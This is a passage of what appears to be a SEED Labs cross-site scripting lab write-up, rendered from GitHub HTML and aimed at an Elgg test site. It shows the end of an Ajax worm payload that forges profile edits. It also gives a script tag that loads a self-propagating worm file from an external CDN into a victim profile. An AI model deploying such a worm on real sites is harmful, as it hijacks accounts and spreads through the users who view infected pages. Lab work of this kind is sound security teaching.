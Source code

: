       Ajax.setRequestHeader(&quot;Host&quot;, &quot;www.xsslabelgg.com&quot;);
      Ajax.setRequestHeader(
        &quot;Content-Type&quot;,
        &quot;application/x-www-form-urlencoded&quot;
      );
      Ajax.send(content);
    }
  };
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.</p>
<h2 dir="auto"><a id="user-content-link-approach" class="anchor" aria-hidden="true" href="#link-approach"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Link Approach</h2>
<p dir="auto">Write the JavaScript file <a href="/li-xin-yi/seedlab/blob/master/Cross-Site-Scripting-Attack/xssworm.js"><code>xssworm.js</code></a> and store it in the external link <a href="https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js" rel="nofollow">https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js</a></p>
<p dir="auto">Add it into Samy's profile:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span>
  <span class="pl-c1">type</span>="<span class="pl-s">text/javascript</span>"
  <span class="pl-c1">src</span>="<span class="pl-s">https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js</span>"
<span class="pl-kos">&gt;</span><span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script
  type=&quot;text/javascript&quot;
  src=&quot;https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js&quot;
></script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
